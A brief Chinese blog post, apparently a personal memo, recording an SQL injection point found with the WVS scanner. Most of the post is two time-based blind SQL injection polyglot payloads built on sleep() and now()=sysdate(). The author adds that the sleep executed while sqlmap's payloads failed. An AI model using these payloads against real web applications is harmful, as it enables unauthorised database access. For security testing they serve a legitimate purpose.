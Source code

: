 ```yaml
---
layout: post
title: "一个注入"
description: ""
category: 
tags: []
---
```

{% include JB/setup %}

wvs跑出来的注入点。payload是

	class=if(now()%3dsysdate()%2csleep(0)%2c0)/*'XOR(if(now()%3dsysdate()%2csleep(0)%2c0))OR'%22XOR(if(now()%3dsysdate()%2csleep(0)%2c0))OR%22*/&imageField=&keys=1

	(select(0)from(select(sleep(3)))v)/*'+(select(0)from(select(sleep(3)))v)+'"+(select(0)from(select(sleep(3)))v)+"*/


测试sleep确实是可以执行的。不过sqlmap的payload跑不出来。

留下备忘。
